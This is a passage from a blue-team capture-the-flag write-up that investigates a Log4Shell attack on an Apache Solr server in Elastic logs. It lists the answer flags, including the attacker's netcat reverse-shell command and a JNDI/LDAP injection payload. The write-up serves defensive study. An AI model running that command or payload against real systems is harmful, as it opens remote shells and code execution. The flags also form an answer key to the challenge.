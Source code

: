 ### 19. If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?
* Flag: ```nc -e /bin/bash 192.168.1.10 9999```
* Points: 150
![25-nc-command.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2023-2-2-elastic-case/25-nc-command.jpg)

### 20. From the previous three questions, you may remember a famous java vulnerability. What is it?
* Flag: ```log4shell```
* Points: 200
* Search Query: ```java netcat vulnerability``` on Google
![26-log-4-shell.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2023-2-2-elastic-case/26-log-4-shell.jpg)

### 21. What is the entire log file path of the "solr" application?
* Flag: ```/var/solr/logs/solr.log```
* Points: 200
* Search Query: ```log.file.path:*solr*```
![27-solr-log.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2023-2-2-elastic-case/27-solr-log.jpg)

### 22. What is the path that is vulnerable to log4j?
* Flag: ```/admin/cores```
* Points: 200
![28-log4j-vulnerable-path.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2023-2-2-elastic-case/28-log4j-vulnerable-path.jpg)

### 23. What is the GET request parameter used to deliver log4j payload?
* Flag: ```foo```
* Points: 200

### 24. What is the JNDI payload that is connected to the LDAP port?
* Flag: ```{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}```
* Points: 250



[challenge-url]: https://cyberdefenders.org/blueteam-ctf-challenges/90